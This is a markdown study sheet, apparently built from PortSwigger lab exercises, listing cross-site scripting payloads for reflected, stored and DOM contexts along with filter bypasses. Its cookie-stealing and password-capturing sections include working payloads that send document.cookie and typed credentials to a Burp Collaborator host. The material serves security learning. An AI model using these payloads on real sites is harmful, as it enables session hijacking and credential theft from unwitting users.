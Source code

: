 - If xss context is **within html tags** 
	- **with no encoding**
		- We can simply introduce the below payload to execute our javascript code.
		```html
		<script>alert(document.domain)</script>
		```  
	- **most tags and attributes blocked**
		- Make use of intruder to identify for any allowed tags and their event hanndlers. 
		- Use the allowed tags and attributes to execute javascript
		- For example, if **body** tag is allowed we can craft a payload with **iframe** to deliver to our victim
			- Browsers when rendering html only allow one *body* tag and merge any events related to inner body tags to the parent body tag. So, in our scenario if we try to inject a body tag with events into our search field, our inner body tag gets removed and the event gets added to the parent body tag.
		```html
		<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
		``` 
		- Another example when **only custom tags are allowed** we can craft a payload that will be automatically triggered on victims end: **`<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>`**
		- If the application **only allows svg** tag the our payload will be: **`<svg><animatetransform onbegin=alert(1) attributeName=transform>`**
		- If our vss context is within **canonical link tag** our payload would be: **`accesskey='x'onclick'alert(1)`**. **Make sure there are no spaces in our payload**.

> **🗒️ NOTE**
> When trying to find xss make sure to validate all instances of our input within the response. The application might not be implementing encoding or escaping on all those instances.

- If xss context is **into an attribute**
	- **angle brackets html encoded**
		```javascript
		" autofocus onfocus=alert(document.domain) x="
	   ```
		- We are adding **`x="`** to repair the markup from being broken
	- **double quotes encoded and input is within `href` attribute**
		- **`href`** is considered to be a scriptable context. There are other html attributes that act as scriptable contexts by themselves. 
		- We make use of javascript **pseudo-protocol** to execute our payload: 
		```javascript
		javascript:alert(document.domain)
		```

- If xss context is into **JavaScript**
	- **angle brackets html encoded**
		- If our input is within a string then we need to break out of it to introduce javascript code
			```javascript
			';alert(document.domain)//` 
			'-alert(document.domain)-'
		   ```
	- **single quote and backslash escaped**
		- Browsers first perform html parsing to idenfity page elements and then parse javascript to understand and execute embedded scripts.
		- Even though our payload breaks the markup it doesn't prevent the subsequent script from being parsed and executed in a normal way.
		- We can craft our payload using the above information: 
		  ```html
		  </script><img src=1 onerror=alert(document.domain)>;
		 ```
	- **angle brackets and double quotes html encoded and single quotes escaped**
		- To break out of the string we will append a **`\`** backslash character to our payload: **`\\';alert(document.domain)//`**
		- ***Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds.***
	- **within existing javascript in a quoted tag attribute such as `onclick` event with `<>`, and `"` html encoded and `'`, and `\` escaped**
		- Consider and example: 
		```html
		<a href="#" onclick="... var input='controllable data here'; ...">
		```
		- To break out of the string and execute our payload we will make use of: 
		```javascript
		&apos;-alert(document.domain)-&apos;
		```
		- ***Browser's usually HTML-decode the value of the `onclick` attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds.***
	- **Using template literals \`\` (input within backticks) **
		- We can introduce **embedded expressions `${...}`** with javascript code inside: **`${alert(document.domain)}`**

- **Stealing session cookies**
	- Identify the xss context to craft our payload
	- Start burp collaborator and copy the payload url to clipboard
	- Use the following payload to deliver exploit to our victim: 
	```javascript
	<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

- **capturing passwords**
	- Identify xss context to craft our payload
	- Start burp collaborator and copy payload url to clipboard
	- Use the following payload to deliver exploit to our victim:
	```html
		<input name="username" id="username">
		<input type="password" name="password" onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
		   method: 'POST',
		   mode: 'no-cors',
		   body: username.value + ':' + this.value
		});">
	```
	- Browsers typically enforce **same-origin-policy** which restricts making a request to a different domain. To bypass this we set **mode: no-cors**.

### DOM XSS
- **source `location.search` and sink `document.write`**
	- **document.write allows executing `<script>` tags** and our payload will be:
	```html
		<script>alert(document.domain)</script>
	```
	- **terminating any strings** to excute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<img src="/resources/images/tracker.gif?searchTerms='+attacker controllable input+'">');
		```
		2. Our payload will now be:
		```html
			'"><script>alert(document.domain)</script>
	   ```
	- **terminating any tags** to execute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<select name="...attacker controllable input...">')
		```
		2. Our payload will now be:
		```html
		   "><script>alert(document.domain)</script>
	   ```
- **source `location.search` and sink `innerHTML`**
	- **innerHTML doesn't allow `<script>` tags**, alternatively we can use **`img`** tags to execute our code:
	```html
		<img src=1 onerror=alert(document.domain)>
	```
- **source `location.search` and sink jQuery anchor `href` attribute**
	- Consider an example where the value of **returnPath** is being set to a **href** attribute within an anchor tag which has an id **backLink**:
	```javascript
		<script>
			$(function() {
				$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
			});
		</script>
	```
	- If the **returnPath** is **attacker controllable input** then we can use javascript **pseudo-protocol** to execute our payload:
	```javascript
		javascript:alert(document.domain)
	```
- **source `location.hash` and sink jQuery slection function `$()`**
	- Complete the lab again
- **angularJS expression with angle brackets and double quotes html encoded**
	- Complete the lab again
- **source `location.search` and sink `eval()`**
	- Consider an example where our input is reflected within a json response that will eventually get passed to an **`eval()`**
	- We will the following payload to break out of json and call our javascript code: 
	```javascript
		"-alert()}//
	```
- **When `replace` is used for sanitization**
	- Consider an example where our input is sanitized using the javascript function **`replace`** instead of **`replaceAll`**
	- If the function tries to replace **`<`** and **`>`** then we can craft a payload that would be: 
	```html
		<><img src=1 onerror=alert(1)>
	```
	